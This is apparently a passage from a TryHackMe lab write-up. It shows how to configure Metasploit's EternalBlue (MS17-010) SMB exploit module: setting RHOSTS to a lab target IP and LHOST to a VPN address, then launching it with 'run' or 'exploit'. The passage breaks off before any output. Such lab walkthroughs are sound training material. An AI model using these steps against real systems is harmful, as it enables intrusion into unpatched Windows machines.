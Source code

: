 ```
   --  ----
   0   Automatic Target
```
### Let configure it According to Us:
* Rhosts = target machine Ip.
```
set RHOSTS 10.10.82.100
```
* Set Lhost = Tryhackme Internal Virtual IP Address / Vpn Ip
```
set LHOST <Your Ip>
```
### here is my configuration:
```
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOST 10.10.82.100
RHOST => 10.10.82.100
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 10.17.120.99
LHOST => 10.17.120.99
msf6 exploit(windows/smb/ms17_010_eternalblue) > 
```
### To Run this use:
```
run
```
or 
```
exploit
```
### Let run this:
